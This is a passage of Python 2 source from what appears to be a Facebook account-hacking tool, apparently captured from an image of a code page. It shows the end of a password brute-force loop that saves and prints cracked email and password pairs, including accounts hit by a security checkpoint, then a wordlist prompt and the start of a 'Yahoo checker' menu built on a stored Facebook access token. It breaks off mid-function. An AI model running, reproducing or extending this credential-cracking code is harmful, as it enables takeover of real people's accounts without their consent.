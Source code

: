 					dapat = open("Brute.txt", "w")
					dapat.write(email+" | "+pw+"\n")
					dapat.close()
					print "\n\033[1;91m[+] \033[1;92mFound"
					print 42*"\033[1;97m═"
					print("\033[1;91m[➹] \033[1;92mUsername \033[1;91m:\033[1;97m "+email)
					print("\033[1;91m[➹] \033[1;92mPassword \033[1;91m:\033[1;97m "+pw)
					exit()
				elif 'www.facebook.com' in mpsh["error_msg"]:
					ceks = open("Brutecheckpoint.txt", "w")
					ceks.write(email+" | "+pw+"\n")
					ceks.close()
					print "\n\033[1;91m[+] \033[1;92mFound"
					print 42*"\033[1;97m═"
					print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
					print("\033[1;91m[➹] \033[1;92mUsername \033[1;91m:\033[1;97m "+email)
					print("\033[1;91m[➹] \033[1;92mPassword \033[1;91m:\033[1;97m "+pw)
					exit()
			except requests.exceptions.ConnectionError:
				print"\033[1;91m[!] Connection Error"
				time.sleep(0.01)
	except IOError:
		print ("\033[1;91m[!] File not found")
		wordlst()
def wordlst():
	why = raw_input("\033[1;91m[?] \033[1;92mCreate wordlist ? \033[1;92m[y/n]\033[1;91m:\033[1;97m ")
	if why =="":
		print "\033[1;91m[!] Wrong"
		wordlst()
	elif why =="y":
		wordlist()
	elif why =="Y":
		wordlist()
	elif why =="n":
		menu_hack()
	elif why =="N":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong"
		wordlst()

##### YAHOO CHECKER #####
#---------------------------------------------------#
def menu_yahoo():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m With list friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Clone from friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Clone from member group"
	print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m Using file"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	choose_yahoo()
#----choices
def choose_yahoo():